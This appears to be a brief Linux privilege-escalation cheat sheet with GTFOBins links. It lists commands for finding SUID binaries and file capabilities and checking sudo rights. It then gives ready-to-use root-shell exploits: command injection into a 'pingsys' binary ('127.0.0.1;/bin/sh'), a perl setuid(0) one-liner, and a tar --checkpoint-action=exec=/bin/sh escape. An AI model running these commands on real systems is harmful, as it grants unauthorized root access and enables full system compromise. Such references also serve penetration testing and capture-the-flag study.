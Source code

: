 # PINGSYS
```
find / -perm /4000 -type f 2>/dev/null           
```   
If pingsys
```
/usr/bin/pingsys '127.0.0.1;/bin/sh'
```

# CAPABILITIES - perl
https://gtfobins.github.io/gtfobins/perl/
```    
getcap -r / 2> /dev/null
```
If:
/usr/bin/perl = cap_setuid+ep
```
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

# .. /tar
https://gtfobins.github.io/gtfobins/tar/
```
sudo -l
```
If:
User ??? may run the following commands on ???: 

   (root) /bin/tar
```    
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
